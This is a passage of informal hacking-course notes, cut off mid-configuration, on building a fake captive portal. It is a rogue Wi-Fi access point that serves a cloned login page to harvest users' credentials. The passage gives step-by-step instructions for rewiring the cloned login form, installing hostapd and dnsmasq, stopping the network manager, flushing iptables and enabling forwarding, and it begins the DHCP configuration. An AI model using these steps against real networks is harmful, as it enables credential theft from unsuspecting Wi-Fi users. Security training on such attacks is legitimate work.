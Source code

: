 The login part must be in a form tags. Many of them will be within the form tag, if it is not we have to mannually add the form tags.

put the <form> tags between the username and password input parts. Also add the method:

<form method="post" acttion="/index.html">

Here we wrapped the input fields in form tags, we set the method to post and we set the action to the same webpage.

Another thing is that some website uses javascript to do the submisssion proccess, so they dont have a submit button. So if it is a javascript line displays the button we need to replace it and add a submit button by <input type="submit" value="login">

We deleted the container and add a submit button, make sure to delete the whole div, just copy the div's style and add it to our submit button.

NOW LETS'S PREPARE OUR COMPUTER TO RUN FAKECAPTIVE PORTAL:

We need to create our  fake AP now, we created it using mana toolkit erlier. Lets do a generic method now:

▶️> apt install hostapd dnsmasq 

Now let's disble network manager, because it may prevent from brodcasting wifi signals.

▶️> service network-manager stop

Then do:

	echo 1 > /proc/sys/net/ipv4/ip_forward
	iptables --flush
	iptables --table nat --flush
	iptables --delete-chain
	iptables --table nat --delete-chain
	iptables -P FORWARD ACCEPT
	
This is an optional step, but its better to do because to make sure our ip table is clear and anything gonna interfear with our attack. We will also know when it fails we dont need to do anything with ip tables.

We can do this as one by one or save all these lines as a bash script (.sh) file.

Now we prepared our system- we installed dnsmaq and hostapd,we connected the network adaptor, we stopped the network manager, we cleared all rules that might interfear with creating the fake AP

lets create the actual fake access point:

Here we need to configure dnsmasq so that we can use it as a dns and dhcp server [dns server is used to handle dns requests, and dhcp is used to give IPs to clients]

		dnsmasq tool can be used to do this both dns server and dhcp seerver.
		
		To use dnsmasq we need a config file:
		

		#Set the wifi interface
		interface=wlan0

		#Set the IP range that can be given to clients
		dhcp-range=10.0.0.10,10.0.0.100,8h
